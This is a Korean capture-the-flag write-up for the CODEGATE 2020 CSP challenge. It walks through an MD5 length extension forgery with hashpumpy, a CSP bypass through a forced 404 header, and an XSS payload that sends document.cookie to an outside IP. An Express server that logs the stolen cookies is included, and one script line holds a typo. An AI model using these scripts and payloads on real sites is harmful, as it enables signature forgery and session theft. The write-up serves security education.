

> ## CSP(Content Security Policy)란
>
> 웹 브라우저에서 사용되는 콘텐츠에 대한 보호 정책입니다.
>
> 웹에서 사용되는 콘텐츠 즉 이미지, 동영상, 스크립트 등에 대해 사용을 허가를 하는지에 대해 정의를 하는 규칙 입니다.
>
> 이 보호 정책을 이용하여 XSS에서 이용되는 src의 주소를 자신의 하위 도메인 또는 자기 자신에게만 허용함으로 외부의 공격에 방어를 할 수 있습니다.

일단 문제를 확인 합니다.

> **Description :**
> I made an simple echo service for my API practice. If you find bug, please tell me!

그리고 api.php에 대해 소스 파일을 제공하는데 일단 확인 합니다.

```php
<?php
require_once 'config.php';

if(!isset($_GET["q"]) || !isset($_GET["sig"])) {
    die("?");
}

$api_string = base64_decode($_GET["q"]);
$sig = $_GET["sig"];

if(md5($salt.$api_string) !== $sig){
    die("??");
}

//APIs Format : name(b64),p1(b64),p2(b64)|name(b64),p1(b64),p2(b64) ...
$apis = explode("|", $api_string);
foreach($apis as $s) {
    $info = explode(",", $s);
    if(count($info) != 3)
        continue;
    $n = base64_decode($info[0]);
    $p1 = base64_decode($info[1]);
    $p2 = base64_decode($info[2]);

    if ($n === "header") {
        if(strlen($p1) > 10)
            continue;
        if(strpos($p1.$p2, ":") !== false || strpos($p1.$p2, "-") !== false) //Don't trick...
            continue;
        header("$p1: $p2");
    }
    elseif ($n === "cookie") {
        setcookie($p1, $p2);
    }
    elseif ($n === "body") {
        if(preg_match("/<.*>/", $p1))
            continue;
        echo $p1;
        echo "\n<br />\n";
    }
    elseif ($n === "hello") {
        echo "Hello, World!\n";
    }
}

```

get 방식으로 `q` 와 `sig` 두 개의 인자를 받아들이고 그다음 q을 base64 decoding을 한 다음 이것을 salt와 연결하여 md5 hash을 돌린 값이 sig와 동일 한지 검증을 합니다. 이때 `md5($salt.$api_string)` 의 방식은 `Length extension attack` 을 이용하여 공격이 가능하여 보입니다.

```php
<?php
if(md5($salt.$api_string) !== $sig){
    die("??");
}
```

> ## Length extension attack
>
> MD(Merkle-Damgard)방식을 사용한 Hash 함수에서 발견된 취약점으로 자주 사용되는 md5, sha-1, sha-2가 여기에 포함이 된다. MD방식으로 hash을 할 때 일정 비트만큼 블럭을 나누어 hash을 하여 그다음 블록과 압축 함수를 돌리고 hash을 돌리기 때문에 `salt` + `msg` 의 방식은 `padding` 을 추가 하여 블록을 맞춘 다음 추가할 메세지를 더하면 `salt` 을 몰라도 이미 알고 있는 `sig` 을 이용한다면 추가된 문자열을 정상적으로 인식하도록 만들 수 있다.

`Length extension attack` 을 하기 편하게 도와주는 python 모듈 `hashpumpy` 을 사용하여 일단 `Salt` 의 길이를 알아내는 스크립트를 작성 해봅니다.

```python
import os
import requests
from base64 import b64encode
from hashpumpy import hashpump

ori_msg = "Ym9keQ==,7YyA66qo65GQIQ==," # body,팀모두!,
ori_sig = "9325813a0a951c308d6c5c0c9a462648"
url = "http://110.10.147.166/api.php"
key_len = None

def found():
    for i in range(1,64):
        [sig, value] = hashpump(ori_sig, ori_msg, "Test", i)
        # [sig, value] = os.popen("hashpump -s '{s}' -d '{d}' -a '{a}' -k {k}".format(s=ori_sig, d=ori_msg, a="Test", k=i)).read().strip().split('\n')
        params = {'q' : b64encode(eval("b'''" + value + "'''")).decode(),
                'sig' : sig}
        response = requests.get(url,params)
        if "??" not in response.text:
            key_len = i
            break
        print(params)
        print(response.text+" : ",i)

    print("found!!!key_length!!!!!! : "+str(key_len))
    return key_len
found()
```

이 스크립트를 통해 salt의 길이는 12 자리인 것을 확인 했습니다.

이제 `CSP` 을 우회해서 script을 작동 시키는 방법을 찾아 봅니다.

```php
<?php
if ($n === "header") {
        if(strlen($p1) > 10)
            continue;
        if(strpos($p1.$p2, ":") !== false || strpos($p1.$p2, "-") !== false) //Don't trick...
            continue;
        header("$p1: $p2");
    }
```

[CSP(Content-Security-Policy) Bypass technique](https://www.hahwul.com/2019/01/csp-bypass-technique-xss.html) 글을 읽어 보면서 중간에 Error page 즉 400/500 번 대의 페이지에는 CSP을 설정 안 하는 경우가 있다고 해서 이 방법을 사용 하여 공격을 진행 했습니다.

```python
msg_1  = "|{},{},{}".format(b64encode("header".encode()).decode(),b64encode("http/1.1".encode()).decode(),b64encode("404".encode()).decode())
```

위와 같이 header에 http/1.1 : 404 라는 항목이 들어갈 수 있도록 완성을 하였고 test을 위한 xss 내용은 정규식을 피하도록 \n 개행 처리를 이용하여 우회를 했습니다.

```python
import requests
from base64 import b64encode
from hashpumpy import hashpump

ori_msg = "Ym9keQ==,7YyA66qo65GQIQ==," # 팀모두!
ori_sig = "9325813a0a951c308d6c5c0c9a462648"
msg_1  = "|{},{},{}".format(b64encode("header".encode()).decode(),b64encode("http/1.1".encode()).decode(),b64encode("404".encode()).decode())
msg_2  = "|{},{},".format(b64encode("body".encode()).decode(),b64encode("""<script\n>alert("xss")\n</script\n>""".encode()).decode())
msg_3  = "|{},{},{}".format(b64encode('cookie'.encode()).decode(),b64encode('cookies!'.encode()).decode(),b64encode('팀모두 화이팅!'.encode()).decode())
url = "http://110.10.147.166/api.php"
key_len = None

def found():
    for i in range(1,32):
        [sig, value] = hashpump(ori_sig, ori_msg, "Test", i)
        params = {'q' : b64encode(eval("b'''" + value + "'''")).decode(),
                'sig' : sig}
        response = requests.get(url,params)
        if "??" not in response.text:
            key_len = i
            break
        print(params)
        print(response.text+" : ",i)

    print("found!!!key_length!!!!!! : "+str(key_len))
    return key_len

[sig, value] = hashpump(ori_sig, ori_msg, msg_1+msg_2+msg_3, 12)
params = {'q' : b64encode(value).decode(),
        'sig' : sig}
print(url+"?q={}&sig={}".format(params['q'],params['sig']))
# response = requests.get(url,params)
# print(response.text)

# print(response.url)

```

http://110.10.147.166/api.php?q=WW05a2VRPT0sN1l5QTY2cW82NUdRSVE9PSyAAAAAAAAAAAAAAAAAAAAAAAAwAQAAAAAAAHxhR1ZoWkdWeSxhSFIwY0M4eExqRT0sTkRBMHxZbTlrZVE9PSxQSE5qY21sd2RBbytZV3hsY25Rb0luaHpjeUlwQ2p3dmMyTnlhWEIwQ2o0PSx8WTI5dmEybGwsWTI5dmEybGxjeUU9LDdZeUE2NnFvNjVHUUlPMlpsT3lkdE8yTWhTRT0=&sig=48695976fc42f4f4f606c74f9d2df444

이제 이러한 결과물이 나오는데 실제로도 정상적으로 xss가 동작하는 것을 확인할 수 있습니다.

이제 취약점이 발견된 위의 주소를 report 하면 되는데 이 때 챌린지가 있는데 간단하게 스크립트를 작성하여 해결합니다.

```python
import hashlib

i = 0
while True:
    hash = hashlib.sha1(str(i).encode()).hexdigest()
    if hash[0:5] == "eab0e":
        print(i,hash)
        break
    i = i + 1
```

여기서 나온 결과 값과 url을 넘겨주면 아무 반응이 없는데 이때 공격 시나리오를 다시 한번 생각 해봅니다.

문제점이 발견된 URL을 관리자에게 Report을 하였을 때 관리자가 이 URL에 접근을 할 것 이고 이때 xss을 통해 공격을 하여 쿠키 탈취를 시도합니다.

xss을 통해 쿠키 값을 받을 서버를 만들어 봅니다. 간단하게 node.js을 이용하여 만들었습니다.

```javascript
var express = require("express")
var app = express()
var fs = require("fs")

var expressport = 80

var server = app.listen(expressport, function () {
  console.log(`Express server has started on port ${expressport}`)
})

app.get("/", function (req, res) {
  app.get("/cookie", function (req, res) {
    var cookie = req.param("cookie")

    fs.appendFileSync("cookies.txt", cookie + "\n")
  })
})
```

이제 다시 코드를 수정 합니다.

```python
# import os
import requests
from base64 import b64encode
from hashpumpy import hashpump

ori_msg = "Ym9keQ==,7YyA66qo65GQIQ==," # 팀모두!
ori_sig = "9325813a0a951c308d6c5c0c9a462648"
msg_1  = "|{},{},{}".format(b64encode("header".encode()).decode(),b64encode("http/1.1".encode()).decode(),b64encode("404".encode()).decode())
msg_2  = "|{},{},".format(b64encode("body".encode()).decode(),b64encode("""<script\n>document.location="http://27.96.135.144/cookie?cookie="+document.cookie;\n</script\n>""".encode()).decode())
msg_3  = "|{},{},{}".format(b64encode('cookie'.encode()).decode(),b64encode('cookies!'.encode()).decode(),b64encode('팀모두 화이팅!'.encode()).decode())
url = "http://110.10.147.166/api.php"
key_len = None

def found():
    for i in range(1,32):
        [sig, value] = hashpump(ori_sig, ori_msg, "Test", i)
        # [sig, value] = os.popen("hashpump -s '{s}' -d '{d}' -a '{a}' -k {k}".format(s=ori_sig, d=ori_msg, a="Test", k=i)).read().strip().split('\n')
        params = {'q' : b64encode(eval("b'''" + value + "'''")).decode(),
                'sig' : sig}
        response = requests.get(url,params)
        if "??" not in response.text:
            key_len = i
            breaktoo
        print(params)
        print(response.text+" : ",i)

    print("found!!!key_length!!!!!! : "+str(key_len))
    return key_len

[sig, value] = hashpump(ori_sig, ori_msg, msg_1+msg_2+msg_3, 12)
# [sig, value] = os.popen("hashpump -s '{s}' -d '{d}' -a '{a}' -k {k}".format(s=ori_sig, d=ori_msg, a=msg_1+msg_2+msg_3, k=12)).read().strip().split('\n')
params = {'q' : b64encode(value).decode(),
        'sig' : sig}
print(url+"?q={}&sig={}".format(params['q'],params['sig']))
# response = requests.get(url,params)
# print(response.text)

# print(response.url)

```

다시 한번 스크립트를 돌려봅니다.

http://110.10.147.166/api.php?q=WW05a2VRPT0sN1l5QTY2cW82NUdRSVE9PSyAAAAAAAAAAAAAAAAAAAAAAAAwAQAAAAAAAHxhR1ZoWkdWeSxhSFIwY0M4eExqRT0sTkRBMHxZbTlrZVE9PSxQSE5qY21sd2RBbytaRzlqZFcxbGJuUXViRzlqWVhScGIyNDlJbWgwZEhBNkx5OHlOeTQ1Tmk0eE16VXVNVFEwTDJOdmIydHBaVDlqYjI5cmFXVTlJaXRrYjJOMWJXVnVkQzVqYjI5cmFXVTdDand2YzJOeWFYQjBDajQ9LHxZMjl2YTJsbCxZMjl2YTJsbGN5RT0sN1l5QTY2cW82NUdRSU8yWmxPeWR0TzJNaFNFPQ==&sig=7654fbf53d260c2176bf0122ed1b0b35

이제 완성된 링크를 report에 제출합니다.

그리고 이제 웹 서버로 들어가 파일을 확인 합니다.



```
CODEGATE2020{CSP_m34n5_Content-Success-Policy_n0t_Security}
```
